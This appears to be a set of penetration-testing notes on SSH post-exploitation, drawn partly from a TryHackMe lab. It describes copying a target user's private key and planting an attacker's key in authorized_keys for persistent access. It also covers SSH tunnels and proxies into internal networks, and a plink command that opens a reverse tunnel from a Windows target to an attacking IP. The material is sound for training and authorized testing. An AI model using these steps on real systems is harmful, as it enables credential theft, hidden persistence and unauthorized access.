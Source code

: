 # SSH Secured Shell Connection

## Table of contents

- [SSH keys](#ssh-secured-shell-connection)
- [Forward Connections](#forward-connections)

## SSH keys

To make things even better, you should always try and get shell access to the box. Ideally with an `SSH` connection to have full shell access instead of not so stable or limited reverse or bind shells.

`id_rsa` file that contains a private key that can be used to connect to a box via `ssh`. It is usually located in the `.ssh` folder in the user's home folder. (Full path: `/home/USER/.ssh/id_rsa`). Get that file on your system and give it read/write-only permissions for your user, (`chmod 600 id_rsa`) and connect from the host machine by executing `ssh -i id_rsa USER@IP`.

In case if the target box does not have a generated `id_rsa` file (or you simply don't have reading permissions for it), you can still gain stable `ssh` access. All you need to do is generate your own `id_rsa` key on your system and include an associated key into `authorized_keys` file on the target machine.

Execute `ssh-keygen` and you should see `id_rsa` and `id_rsa.pub` files appear in your own `.ssh` folder. Copy the content of the `id_rsa.pub` file and put it inside the `authorized_keys` file on the target machine (located in `.ssh` folder). If the `authorized_keys` does not exist on the target machine, create it and `chmod 600 authorized_keys`. After that, connect to the machine using your `id_rsa` file with `ssh -i id_rsa USER@IP` and you won't be asked for a password. Note that this way you leave a trace of yourself.

NOTE: If the target machine does not have `ssh` config files at all. Just make them like previously mentioned.

NOTE: The ssh server also needs to allow this all.

````commandline
ssh-keygen -b 4096 
````

https://www.youtube.com/watch?v=ZhMw53Ud2tY

## Forward Connections

Source: <https://tryhackme.com/room/wreath>

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said, Microsoft (relatively) recently brought out their own implementation of the OpenSSH server, native to Windows, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

### Port forwarding

Port forwarding is accomplished with the `-L` switch, which creates a link to a Local port. For example, if we had SSH access to `172.16.0.5` and there's a webserver running on `172.16.0.10`, we could use this command to create a link to the server on `172.16.0.10`: 

````commandline
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```` 

We could then access the website on `172.16.0.10 `(through `172.16.0.5`) by navigating to port `8000` on our own attacking machine. For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port `80` on the target server, and port `8000` on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use sudo to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.

### Proxies

- `Proxies` are made using the `-D` switch, for example: `-D 1337`. This will open up port `1337` on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as `proxychains`. An example of this command would be:

````commandline
ssh -D 1337 user@172.16.0.5 -fN
````

This again uses the `-fN` switches to background the shell. The choice of port `1337` is completely arbitrary -- all that matters is that the port is available and correctly set up in your `proxychains` (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

## plink

`Plink.exe` is a Windows command line version of the `PuTTY SSH client`. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:

````commandline
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
````

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get around the warning message that the target has not connected to this host before.

To use our example from before, if we have access to `172.16.0.5` and would like to forward a connection to `172.16.0.10:80` back to port `8000` our own attacking machine (`172.16.0.20`), we could use this command:

````commandline
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
````

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using sudo `apt install putty-tools.` After downloading the tool, conversion can be done with: 

````commandline
puttygen KEYFILE -o OUTPUT_KEY.ppk
````

Substituting in a valid file for the keyfile, and adding in the output file.

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).

Note: `Plink` is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the .exe. Whilst there is a copy pre-installed on Kali at `/usr/share/windows-resources/binaries/plink.exe`, [downloading a new copy from here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible.

